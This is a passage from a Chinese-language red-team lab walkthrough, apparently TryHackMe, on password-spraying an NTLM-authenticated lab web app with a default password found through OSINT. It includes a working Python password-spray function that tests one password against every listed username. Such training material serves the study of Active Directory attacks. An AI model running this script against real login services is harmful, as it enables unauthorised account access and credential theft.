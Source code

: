 </div>

### 暴力登录攻击

如任务 2 所述，这些暴露的服务为测试使用其他方法发现的凭据提供了绝佳的位置。不过，这些服务也可以直接用于尝试恢复一组初始的有效 AD 凭据。如果我们在最初的红队侦察中恢复了有效的电子邮件地址等信息，我们或许可以尝试使用这些信息进行暴力攻击。

由于大多数 AD 环境都配置了账户锁定功能，因此我们无法运行完整的暴力破解攻击。相反，我们需要执行密码喷射攻击。我们不会尝试多个不同的密码，因为这可能会触发账户锁定机制，而是选择并使用一个密码，并尝试使用我们获得的所有用户名进行身份验证。不过，需要注意的是，这类攻击会产生大量失败的验证尝试，因此可以被检测到。

我们向您提供了一份在红队 OSINT 演习中发现的用户名列表。OSINT 演习还指出了该组织的初始登录密码，似乎是 "Changeme123"。虽然用户应该经常更改初始密码，但我们知道用户经常会忘记。我们将使用定制开发的脚本对托管在以下 URL 的网络应用程序进行密码喷射：

```plaintext
http://ntlmauth.za.tryhackme.com
```

导航至该 URL，我们可以看到它提示我们输入 Windows 身份验证凭据：

<div style={{textAlign:'center'}}>

![Browser require auth](img/image_20231202-200204.png)

</div>

:::tip

Firefox 的 Windows 身份验证插件非常容易失效。如果要手动测试凭证，建议使用 Chrome 浏览器。

:::

我们可以使用 Hydra 等工具来协助进行密码喷涂攻击。不过，最好还是自己编写这类攻击的脚本，这样可以更好地控制攻击过程。任务文件中提供了一个基本 python 脚本，可用于密码喷射攻击。下面的函数是脚本的主要组成部分：

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password:" + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username:" + user + "Password:" + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username:" + user)
    print ("[*] Password spray attack completed," + str(count) + "valid credential pairs found")
```
